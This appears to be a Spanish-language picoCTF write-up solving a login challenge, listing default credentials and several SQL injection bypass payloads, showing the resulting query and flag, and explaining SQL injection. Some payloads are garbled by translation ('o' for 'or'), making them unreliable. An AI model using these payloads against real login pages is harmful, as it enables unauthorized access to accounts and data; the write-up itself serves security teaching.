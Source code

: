 ## Descripción 
```
Can you login to this website?

Additional details will be available after launching your challenge instance.
Try to login [here](http://saturn.picoctf.net:53407/).
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```
 Primero tenemos la página de inicio de sesión pero no sabemos `USERNAME`y `password`.
Siempre debería probar todo esto primero:
NOMBRE DE USUARIO: admin   
CONTRASEÑA: adminNOMBRE DE USUARIO: admin   
CONTRASEÑA: password
Deberíamos intentar la inyección SQL para omitir las pantallas de inicio de sesión. Deberíamos intentar el comando de inyección SQL:
****RECOMENDADO****  
 NOMBRE DE USUARIO: ' o 1=1--   
CONTRASEÑA: ' o 1=1--****RECOMENDADO****  
 NOMBRE DE USUARIO: ' o 1=1/*   
CONTRASEÑA: ' o 1=1/*NOMBRE DE USUARIO: ' o ' 1=1   
CONTRASEÑA: ' o ' 1=1NOMBRE DE USUARIO: admin' o 1=1 -- -   
CONTRASEÑA: admin' o 1=1 -- -NOMBRE DE USUARIO: admi'||'n'||substr(   
CONTRASEÑA : ,0,0)||'NOMBRE DE USUARIO: admi'||(nullif('n',   
CONTRASEÑA: ))||'

Vamos a comprobarlo `View page source`(haga clic derecho en la página), y así obtendremos la bandera en: 
|   |
|---|
|<pre>username: admi&#039;\|(nullif(&#039;n&#039;,|
||password: ))\|&#039;|
||SQL query: SELECT * FROM users WHERE name=&#039;admi&#039;\|(nullif(&#039;n&#039;, &#039; AND password=&#039;))\|&#039;&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}</p>|

picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales
**¿Qué es la inyección SQL?**
La inyección SQL (SQLi) es una vulnerabilidad de seguridad web que permite a un atacante interferir con las consultas que una aplicación realiza a su base de datos. Por lo general, permite que un atacante vea datos que normalmente no puede recuperar. Esto puede incluir datos que pertenecen a otros usuarios o cualquier otro dato al que la propia aplicación pueda acceder. En muchos casos, un atacante puede modificar o eliminar estos datos, lo que provoca cambios persistentes en el contenido o el comportamiento de la aplicación.

En algunas situaciones, un atacante puede escalar un ataque de inyección SQL para comprometer el servidor subyacente u otra infraestructura de back-end, o realizar un ataque de denegación de servicio.
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias